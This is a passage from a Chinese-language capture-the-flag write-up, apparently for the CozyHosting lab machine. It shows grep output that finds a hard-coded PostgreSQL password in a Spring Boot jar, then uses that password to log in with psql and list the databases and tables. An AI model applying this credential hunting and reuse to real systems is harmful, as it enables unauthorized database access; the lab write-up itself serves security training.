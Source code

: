    ```
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-fill"
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-line"
   grep: (standard input): binary file matches
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
   grep: (standard input): binary file matches
   BOOT-INF/classes/templates/login.html:                                        <input type="password" name="password" class="form-control" id="yourPassword"
   BOOT-INF/classes/templates/login.html:                                        <div class="invalid-feedback">Please enter your password!</div>
   BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
   BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
   grep: (standard input): binary file matches
   ```

   找到了一个数据库的密码 Vg&nvzAQ7XxR

   使用同样的方式得到了数据库的用户名是 postgres



4. 我们拥有了postgresql数据库的凭证 `postgres:Vg&nvzAQ7XxR` 可以使用psql来连接postgresql数据库

   ```bash
   psql -h localhost -p 5432 -U postgres -W 'Vg&nvzAQ7XxR'
   
   app@cozyhosting:/app$ psql -h localhost -p 5432 -U postgres
   Password for user postgres: 
   psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
   SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
   Type "help" for help.
   
   postgres=# 
   ```

   接下来根据hacktricks中的[postgresql-pentesting][https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql]的步骤进行测试

   ```
   \list  #列出数据库
                                      List of databases
       Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
   -------------+----------+----------+-------------+-------------+-----------------------
    cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
    postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
    template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                |          |          |             |             | postgres=CTc/postgres
    template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                |          |          |             |             | postgres=CTc/postgres
   (4 rows)
   
   \c cozyhosting # 使用数据库
   postgres=# \c cozyhosting
   SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
   You are now connected to database "cozyhosting" as user "postgres".
   
   \d # List tables
                 List of relations
    Schema |     Name     |   Type   |  Owner   
   --------+--------------+----------+----------
    public | hosts        | table    | postgres
    public | hosts_id_seq | sequence | postgres
   ```